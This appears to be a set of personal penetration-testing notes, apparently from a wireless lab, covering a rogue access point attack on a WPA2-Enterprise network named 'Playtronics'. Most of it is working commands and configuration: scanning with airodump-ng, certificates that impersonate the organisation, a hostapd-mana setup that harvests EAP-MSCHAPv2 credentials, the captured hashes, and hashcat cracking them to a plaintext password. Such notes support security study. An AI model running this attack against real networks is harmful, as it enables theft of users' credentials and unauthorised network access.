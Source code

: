 ## WPA Enterprise

```text
sudo airodump-ng wlan0mon
```
```text
BSSID              PWR Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
FC:EC:DA:8F:2E:90  -40     639       19    1   2  300. WPA2 CCMP   MGT  Playtronics
```
MGT, meaning WPA Enterprise
 
### To mimick this AP

### Setup Certificates

```text
sudo apt install freeradius
sudo -s
cd /etc/freeradius/3.0/certs
```

```text
nano ca.cnf
....
[certificate_authority]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = ca@playtronics.com
commonName              = "Playtronics Certificate Authority"
....
```

```text
nano server.cnf
....
[server]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = admin@playtronics.com
commonName              = "Playtronics"
....
```

```text
rm dh
make destroycerts
```

### Setup hostapd-mana - AP
```text
sudo apt install hostapd-mana
```
```text
nano /etc/hostapd-mana/mana.conf

ssid=Playtronics
interface=wlan0
driver=nl80211
channel=1
hw_mode=g
ieee8021x=1
eap_server=1
eapol_key_index_workaround=0
eap_user_file=/etc/hostapd-mana/mana.eap_user
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

auth_algs=1
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=CCMP TKIP

mana_wpe=1
mana_credout=/tmp/hostapd.credout
mana_eapsuccess=1
mana_eaptls=1
```
```text
nano /etc/hostapd-mana/mana.eap_user

*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```


### Start the AP with certificate
```text
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```

### Output
```text
MANA EAP EAP-MSCHAPV2 ASLEAP user=user1 | asleap -C 5f:57:b0:b6:d1:6d:e0:82 -R e7:db:11:00:06:f7:49:02:0e:e9:17:61:c8:d2:d4:a4:e5:4b:a7:fa:9b:97:81:4e
MANA EAP EAP-MSCHAPV2 JTR | user1:$NETNTLM$5f57b0b6d16de082$e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | user1::::e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:5f57b0b6d16de082
```


### Crack with asleep
I could not get this to work ....
```text
asleap -C 5f:57:b0:b6:d1:6d:e0:82 -R e7:db:11:00:06:f7:49:02:0e:e9:17:61:c8:d2:d4:a4:e5:4b:a7:fa:9b:97:81:4e -W /usr/share/john/password.lst
```


### Crack with Hashcat
5500 | NetNTLMv1 / NetNTLMv1+ESS

```text
echo user1::::e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:5f57b0b6d16de082 > wpa_enterprise.txt
hashcat -m 5500 wpa_enterprise.txt rockyou.txt

user1::::e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:5f57b0b6d16de082:password1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5500 (NetNTLMv1 / NetNTLMv1+ESS)
```












